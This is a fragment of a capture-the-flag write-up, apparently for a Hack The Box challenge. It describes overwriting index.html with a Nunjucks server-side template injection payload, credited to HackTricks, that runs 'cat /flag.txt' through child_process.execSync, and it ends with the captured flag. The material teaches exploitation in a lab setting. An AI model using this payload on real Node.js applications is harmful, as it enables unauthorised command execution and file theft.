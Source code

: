   ![overwrite index.html](image-5.png)

  here i used following payload, stored in `index.html` files. The payload are obtained from [Hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md#nunjucks-nodejs-)

  ```js
    {{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()}}
  ```
- trigger the updated code to gain code execution
  ![flag obtained](image-6.png)


perform the same step for remote, and flag can be obtained :D

Flag: HTB{f1nd1ng_0d4y_15_345Y_r1gh7!!?_970db3ce5022cd532606efeca829916c}